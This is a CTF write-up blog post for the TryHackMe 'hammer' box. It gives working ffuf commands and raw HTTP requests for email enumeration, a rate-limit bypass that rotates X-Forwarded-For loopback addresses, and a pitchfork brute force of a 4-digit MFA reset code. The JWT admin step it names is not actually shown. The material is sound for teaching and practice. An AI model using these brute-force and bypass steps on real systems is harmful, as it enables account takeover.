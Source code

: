 ```yaml
---
layout: post
title:  "TryHackMe | hammer"
description: "Walkthrough of hammer machine, a Medium rated box from TryHackme"
date: "2024-12-14"
pin: true
image:
  path: .../assets/img/ctf/tryhackme/hammer/hammer1.png
  alt: "hammer.thm"
category: "TryHackMe"
tags: ["ThyHackMe", "Enumeration", "Rate Limit Bypass", "mfa bypass", "jwt"]
---
```

## Introduction
------------------------------------------------------------------------------------------
[hammer](https://tryhackme.com/r/room/hammer) is a medium rated linux box from tryhackme. The exploitation consist of abusing the reset password funtionality for email enumeration, next step involve brute forcing the mfa code giving access to reset the user password. From this gained user we can abuse the jwt to get admin access in the application allowing us to have full access to the command execution functionality.

------------------------------------------------------------------------------------------

## Enumeration
We start by a full scan to discover all tcp opened ports...
### All Open Ports
```bash
rustscan -a 10.10.179.102
```
![ports](../assets/img/ctf/tryhackme/hammer/hammer2.png)

### Services Scanning
```bash
nmap -p22,1337 -sC -sV -oN hammer.full 10.10.179.102
```
```text
# Nmap 7.94SVN scan initiated Wed Dec 11 08:14:28 2024 as: nmap -p22,1337 -sC -sV -v -oN hammer.full 10.10.179.102
Nmap scan report for hammer.thm (10.10.179.102)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0a:6d:ab:ce:54:aa:96:47:b4:6e:d8:56:38:a7:ae:b6 (RSA)
|   256 bd:2a:f1:09:dd:e1:d3:2a:5b:20:f1:52:4e:d5:39:5a (ECDSA)
|_  256 f0:ec:2f:c0:d6:35:68:0e:8e:53:b3:49:7c:a4:0e:fa (ED25519)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/.../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 11 08:14:43 2024 -- 1 IP address (1 host up) scanned in 15.06 seconds
```
### Hostname
```bash
echo '10.10.179.102   hammer.thm' >> /etc/hosts
```

## FootHold
### Port 1337
![web app](../assets/img/ctf/tryhackme/hammer/hammer3.png)
```bash
ffuf -c -u http://hammer.thm:1337/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php , .txt
```
![dir bur](../assets/img/ctf/tryhackme/hammer/hammer4.png)
![php-jwt](../assets/img/ctf/tryhackme/hammer/hammer5.png)
php-jwt library is being used by the app, i heva looked for known issues with this library by nothing here...
![hmr](../assets/img/ctf/tryhackme/hammer/hammer6.png)
The dev note higlihts a naming convention (/hmr_DIRNAME) that can helps us better fuzz directories... 
```bash
ffuf -c -u http://hammer.thm:1337/hmr_FUZZ -w /usr/share/wordlists/dirb/common.txt 
```
![logs](../assets/img/ctf/tryhackme/hammer/hammer7.png)
![logs2](../assets/img/ctf/tryhackme/hammer/hammer8.png)
![logs3](../assets/img/ctf/tryhackme/hammer/hammer9.png)
user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
tester@hammer.thm
![logs3](../assets/img/ctf/tryhackme/hammer/hammer10.png)
![logs3](../assets/img/ctf/tryhackme/hammer/hammer11.png)
The "Invalid email address!" response we get here can be a chance for valid email enumeration!!!!
let's enter the previous email we found in the logs...
![logs3](../assets/img/ctf/tryhackme/hammer/hammer12.png)
by entering tester@hammer.thm email in the rest password page we got the reonse in the previous capture, meaning it's a valid email.
Something to not is that it's possible to find fuzz for valid emails, let's do that...
![logs3](../assets/img/ctf/tryhackme/hammer/hammer13.png)
![logs3](../assets/img/ctf/tryhackme/hammer/hammer14.png)
There is a rate limiting in place...but this is not going to discourage us right? of course...My first question what does the server track in order to tell how may attempts we have left? after multiple tests it seems like our unauthenticated session is the one being tracked...
![logs3](../assets/img/ctf/tryhackme/hammer/hammer15.png)
Once i remove the cookie header in request the "Rate-Limit-Pending" header in the response will always be 9...my guess is that the server has no way of telling us how many attempts we have left. so we an open door here to fuzz
```text
POST /reset_password.php HTTP/1.1
Host: hammer.thm:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://hammer.thm:1337/reset_password.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://hammer.thm:1337
Connection: keep-alive
Upgrade-Insecure-Requests: 1

email=FUZZ@hammer.thm
```
```bash
ffuf -c -request reset_pass.req -request-proto http -w usernames.txt -fs 1754
```
![logs3](../assets/img/ctf/tryhackme/hammer/hammer16.png)
We have got that email again...whatever method now that we have gotten a valid email we are good to go

- Brute force tha tester@hammer.thm password on the login page
- Attack the mfa and reset tester@hammer.thm password
![logs3](../assets/img/ctf/tryhackme/hammer/hammer17.png)
- There is ratelimiting
- There is time count down, meaning the user has s=175 seconds to submit the valid mfa code.
- If count down reaches 0 we get redirected to "Time elapsed" error page.

Unlike the previous situation, here we can't remove the session, if we do that we get redirection to the same "Time elapsed" error page.
![logs3](../assets/img/ctf/tryhackme/hammer/hammer18.png)
![logs3](../assets/img/ctf/tryhackme/hammer/hammer19.png)
If we can find a parameter in the request that can help use overcome the rate limiting we can have a chance to brute force the mfa code give 120s time frame...

After googling "Rate limit bypass" i found this...
![logs3](../assets/img/ctf/tryhackme/hammer/hammer20.png)
X-Forwarded-For: 127.0.0.5 worked here, when we change the IP we got another 10 requests. 10 requests by ip and we want to fuzz a 4 digit mfa code we will need up to 900 ip...

By abusing the loopback address range 127.0.0.0/8 it's possible
![logs3](../assets/img/ctf/tryhackme/hammer/hammer21.png)
![logs3](../assets/img/ctf/tryhackme/hammer/hammer22.png)
```bash
echo '0000' > w.txt
seq 1000 9999 >> w.txt
```
We need 1000 ips in the loopback range and a little bit of networking nknowlege bring us to 127.0.0.0/22 range.
2^10=1024 and 22=32-10
```bash
prips 127.0.0.0/22 > ip.txt
awk '{for(i=1; i<=9; i++) print $0}' ip.txt > wordlist.txt
```
Pitchfork Attack using ffuf...
- copy the PHPSESSID  and add it to mfa_brute.req
- Enter the email to start the process
- run pitchfork attack
![logs3](../assets/img/ctf/tryhackme/hammer/hammer23.png)

```text
POST /reset_password.php HTTP/1.1
Host: hammer.thm:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: FUZZIPS
Content-Length: 24
Origin: http://hammer.thm:1337
Connection: keep-alive
Referer: http://hammer.thm:1337/reset_password.php
Cookie: PHPSESSID=vf6ddidso59n9qahc89usq2vp9
Upgrade-Insecure-Requests: 1

recovery_code=FUZZCODE&s=120
```

![logs3](../assets/img/ctf/tryhackme/hammer/hammer24.png)

```bash
ffuf -c -mode pitchfork -request mfa_brute.req -request-proto http -w wordlist.txt:FUZZIPS -w w.txt:FUZZCODE -fs 2202
```
![logs3](../assets/img/ctf/tryhackme/hammer/hammer25.png)
The valid code is the first code that does not hit ouw response size filter...

Using that code we got a page to set a new password.
![logs3](../assets/img/ctf/tryhackme/hammer/hammer26.png)
After the setting a new password we can log in as tester@hammer.thm...
![logs3](../assets/img/ctf/tryhackme/hammer/hammer27.png)
![logs3](../assets/img/ctf/tryhackme/hammer/hammer28.png)
As we may guess there is some command filtering in place and we can't read the flag.txt file directly...
basic commands like cat, id ...my guess is that only the ls command is allowed.

## Privilege Escalation
```bash
curl http://hammer.thm:1337/188ade1.key
curl http://hammer.thm:1337/composer.json
```
![logs3](../assets/img/ctf/tryhackme/hammer/hammer28.png)



## Kill Chain Summary
1. Email Enumeration trough the reset functionality.
2. MFA code brute forcing to reset tester@hammer.thm password.
3. JWT attack to get admin acces in the application.

## References
[Rate Limit Bypass](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)<br>
[hacker recipes jwt attack](https://www.thehacker.recipes/web/inputs/jwt)<br>
[jwt auth bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)<br>